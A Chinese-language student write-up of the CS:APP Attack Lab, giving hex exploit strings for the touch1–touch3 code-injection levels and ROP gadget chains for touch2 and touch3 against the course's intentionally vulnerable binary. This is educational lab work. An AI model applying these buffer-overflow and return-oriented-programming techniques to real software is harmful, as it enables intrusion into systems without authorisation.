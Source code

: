 # Attack Lab

之前拖了一会儿作业，要去世了，现在补上吧

## touch1

这里是先执行test函数，然后退出。

但是要不执行完test，而去执行touch1

![image-20210504003846993](C:\Users\77161\AppData\Roaming\Typora\typora-user-images\image-20210504003846993.png)

```c
unsigned int __cdecl getbuf()
{
  char buf[40]; // [rsp+0h] [rbp-28h] BYREF

  Gets(buf);
  return 1;
}
```

显然这里buf只开了40的内存，所以直接使用字符串攻击

```
.text:00000000004017C0 ; void __cdecl touch1()
```

所以使溢出的地址为touch1的地址即可（这里需要注意这个程序是小端的地址要倒写

```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
c0 17 40 00
```

## touch2

这道题我一开始没看懂，一开始一直以为是参数压栈的方式来攻击，发现我多少有点大病，然后去看了一眼blog.，大致上的画了一张图。

![image-20210507154651560](C:\Users\77161\AppData\Roaming\Typora\typora-user-images\image-20210507154651560.png)

大致上是这么一个意思

将

```
movq $0x59b997fa,%rdi
pushq  $0x4017ec
ret
//转变为机械码
0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
9:	68 ec 17 40 00       	pushq  $0x4017ec
e:	c3                   	retq  
```

所以攻击序列为

```
48 c7 c7 fa
97 b9 59 68
ec 17 40 00
c3 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
78 dc 61 55
```

# touch3

![image-20210507154847522](https://i.loli.net/2021/05/07/cUGS7f3EJVPz4HW.png)

不难发现传入了一个参数这个参数与cookie进行了比较

![image-20210507155718748](C:\Users\77161\AppData\Roaming\Typora\typora-user-images\image-20210507155718748.png)

从汇编里可以发现了在touch3的开始将sval值设置成rdi，说明rdi是存放参数地址的那个寄存器。（PS：这里要求cookie是个字符串的所以要存在栈里）

所以有了以下攻击序列：

![image-20210507162145452](C:\Users\77161\AppData\Roaming\Typora\typora-user-images\image-20210507162145452.png)

然后就mad显而易见的错误了，这里看到

![image-20210507162217555](https://i.loli.net/2021/05/07/IurKCb5Oq9VkPFS.png)

在touch3里面有一个函数申请了110的空间，我直接az了，然后就有了下面这张

![image-20210507162313534](C:\Users\77161\AppData\Roaming\Typora\typora-user-images\image-20210507162313534.png)

攻击序列：

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 
00 00 00 00
```

ROP:

问了一些别的师傅，我一开始是不了解ROP的；

ROP简单来说有两个特性：

1.栈随机

2.栈只可读

 ## touch2:



![image-20210507162618951](https://i.loli.net/2021/05/07/Et75bKCLdUJaqiR.png)

这里说明需要从Gadget中找到对应的片段来进行攻击就行了：

（然后悄悄地看了眼达不溜屁，

可以找到两个满足条件的gadget

```
popq     %rax
ret                  
mov      %rax,%rdi
ret
```

这里将rax出栈赋值成cookie，然后复制给rdi

于是攻击字符串为：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
2d 1a 40 00 00 00 00 00 	//gadget1的起始地址
00 16 fb 73 00 00 00 00     //cookie
41 1a 40 00 00 00 00 00     //gadget2的起始地址
67 18 40 00 00 00 00 00     //touch2 的起始地址
```

## ROP touch3

这个我是真的没找到我直接看blog的，下面贴出所找到的指令：

```
mov   %rsp,%rax
ret
mov   %rax,%rdi
ret
popq  %rax         
ret                 
movl  %eax,%edx
ret
movl  %edx,%ecx
ret
movl  %ecx,%esi
ret
lea   (%rdi,%rsi,1),%rax
ret
mov   %rax,%rdi
ret
```

先把`%rsp`存储的栈顶指针值复制给`%rdi`， 再将`%eax`的值设置为`cookie`字符串地址在栈中的偏移量并复制给`%esi`，最后将二者相加即为`cookie`字符串的存储地址。当指令指到ret指令行时，说明一个函数已经结束了，这时候%rsp已经从被调用函数的栈指到了调用函数构建的返回地址位置。
所以当执行第一条指令时，%rsp指向当前栈顶即存储下一条指令的地址，而后面的指令执行完后最终不会使该%rsp值改变。
在第一条指令之后即从第二条指令开始，cookie字符串之前还有有9条指令，共占有72个字节即0x48字节，此即cookie字符串的地址在栈中的偏移量。

攻击字符串：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
//以上（任意字节除0x0a）填充满整个缓冲区（56字节）以致溢出。
b7 1a 40 00 00 00 00 00 
//用gadget1的起始地址覆盖掉原先的返回地址。
41 1a 40 00 00 00 00 00  //gadget2的起始地址。
2d 1a 40 00 00 00 00 00  //gadget3的起始地址。
48 00 00 00 00 00 00 00  //cookie字符串地址在栈中的偏移量。
53 1a 40 00 00 00 00 00  //gadget4的起始地址。
a9 1a 40 00 00 00 00 00  //gadget5的起始地址。
ca 1a 40 00 00 00 00 00  //gadget6的起始地址。
4c 1a 40 00 00 00 00 00  //gadget7的起始地址。
41 1a 40 00 00 00 00 00  //gadget8的起始地址。
75 19 40 00 00 00 00 00  //touch3 的起始地址。
37 33 66 62 31 36 30 30  //cookie字符串的字节表示。
```

完结撒花

PS：最近在写BUU的WP，所以有点拖拉，尽量在近期将BUU的WP发出来，博客搞搞完。

